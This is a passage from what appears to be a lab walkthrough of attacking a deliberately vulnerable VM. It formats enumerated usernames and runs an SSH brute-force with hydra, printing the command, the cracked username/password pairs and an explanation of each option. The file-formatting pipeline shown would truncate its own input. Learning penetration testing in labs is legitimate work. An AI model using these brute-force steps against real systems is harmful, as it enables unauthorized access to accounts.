     user:[sync] rid:[0x3f0]
    user:[uucp] rid:[0x3fc]
    
And I get a list of all the users! I copy the above and create a file, open it in vim, paste the users into to it then format it to only include usernames:

    # touch users.lst
    # vim users.lst 
    # cat users.lst | cut -d[ -f2 | cut -d] -f1 > users.lst

### Brute forcing

With this is mind I turn to my number one tool for brute forcing: `hydra `. Time to bruteforce!

    # hydra -L ./users.lst -P /usr/share/john/password.lst -e nsr -t 8 -u ssh://192.168.56.103
    Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

    Hydra (http://www.thc.org/thc-hydra) starting at 2014-11-15 04:10:13
    [DATA] 8 tasks, 1 server, 121040 login tries (l:34/p:3560), ~15130 tries per task
    [DATA] attacking service ssh on port 22
    [22][ssh] host: 192.168.56.103   login: user   password: user
    [22][ssh] host: 192.168.56.103   login: postgres   password: postgres
    [22][ssh] host: 192.168.56.103   login: msfadmin   password: msfadmin
    [22][ssh] host: 192.168.56.103   login: service   password: service
    [STATUS] 303.00 tries/min, 303 tries in 00:01h, 120737 todo in 06:39h, 8 active
    [22][ssh] host: 192.168.56.103   login: klog   password: 123456789
    [STATUS] 268.67 tries/min, 806 tries in 00:03h, 120234 todo in 07:28h, 8 active
    [STATUS] 274.14 tries/min, 1919 tries in 00:07h, 119121 todo in 07:15h, 8 active
    [22][ssh] host: 192.168.56.103   login: sys   password: batman
    [STATUS] 273.60 tries/min, 4104 tries in 00:15h, 116936 todo in 07:08h, 8 active
    ^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.


Success, at this point I just cancel the scan, I have proven my point and gotten a couple of user name password combos.
Now let me exlain the `hydra` call. There are quite a lot of options to explain so the break it up.

* `-L` defines the user name list.
* `-P` denotes a password set. I use the password list from JohnTheRipper here.
* `-e` gives any addititonal options, in this case; `n`, for `null` password; `s` for using user name as password; `r`, for using the username in reverse.
* `-t` dictates how many "tasks" should be run, defaults to 16 but has to be throtled to 8 otherwise it produces errors.
* `-u` tells hydra to apply each password to all users. This will find misconfigured (user name == password) users quicly
* Lastly we specify the actual target, in this case the protocol is defined as part of the URI.
    